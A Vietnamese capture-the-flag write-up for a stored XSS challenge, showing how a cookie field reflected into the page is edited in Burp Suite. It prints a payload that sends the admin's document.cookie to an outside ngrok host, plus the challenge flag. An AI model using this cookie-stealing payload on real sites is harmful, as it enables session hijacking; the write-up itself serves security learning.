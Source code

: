# XSS - Stored 2
## Solution
Đầu tiên website cho em một form đăng nhập khá quen thuộc như này.

![image](https://user-images.githubusercontent.com/86184794/160962127-213eb0ad-7d50-40a8-9072-81bc986bfea5.png)


Giờ ta thử khai thác challenge bằng cách nhập các đoạn javacript vào các ô input

![image](https://user-images.githubusercontent.com/86184794/160962287-5100114d-9f21-4296-9767-e9492611e1ff.png)

Khi nhập javascript ở ô input trên thì không có gì xuất hiện cả. Còn khi nhập ở ô input dưới thì xuất hiện thông báo dưới website

![image](https://user-images.githubusercontent.com/86184794/160962384-d36105cb-bd2c-4d76-accf-e59069ecef7e.png)

Như vậy thì ta thấy các ô input này đều được cấu hình để làm sạch dữ liệu đầu vào.


![image](https://user-images.githubusercontent.com/86184794/160962614-50469f2d-38ea-4078-b59e-86ddbd5ad7f2.png)


Khi vào source page thì ta thấy các chuỗi inpput của chúng ta nhập vào đều được làm sạch nhưng để ý thì ta thấy class="invite" có thể khai thác vì em đã phát hiện class="invite" này được lưu trong biến status trong cookie của trang web.


![image](https://user-images.githubusercontent.com/86184794/160962936-f4900a66-e4ce-4c11-a350-d595ff0abd16.png)

Như vậy ý tưởng khai thác challenge này là em làm thay đổi biến status này với chuỗi javacript thì sẽ khai thác được.

Giờ em sẽ dùng burp suite để chặn gói tin lại và sửa đổi cookie.

![image](https://user-images.githubusercontent.com/86184794/160963381-1c897791-da32-480d-8355-0f2d4bb50eb0.png)


Cấu hình burp suite chặn gói tin.

![image](https://user-images.githubusercontent.com/86184794/160963438-894ef662-067a-41b9-8801-7dda8824ba49.png)

Ta được cấu trúc gói tin như trên. Giờ em sẽ đi sửa gói status của gói tin trên thành 
```
"><script>document.write("<img src='http://e961-113-161-66-224.ngrok.io/" %2b documment.cookie %2b "'></img>")</script><img src="; lang=fr\r\n<h1>hello</h1>
```

Sau đó forward gói tin và chờ 1 lúc sẽ được kết quả

![image](https://user-images.githubusercontent.com/86184794/160967179-2cc9c2bd-1e6e-4c19-81ae-509ec89716d4.png)


Sau đó đưa admin_cookie vào request admin thì sẽ có được flag

![image](https://user-images.githubusercontent.com/86184794/160967204-fece4f8b-1fe4-441e-8508-3757fb01c1e5.png)
 
 Flag: E5HKEGyCXQVsYaehaqeJs0AfV


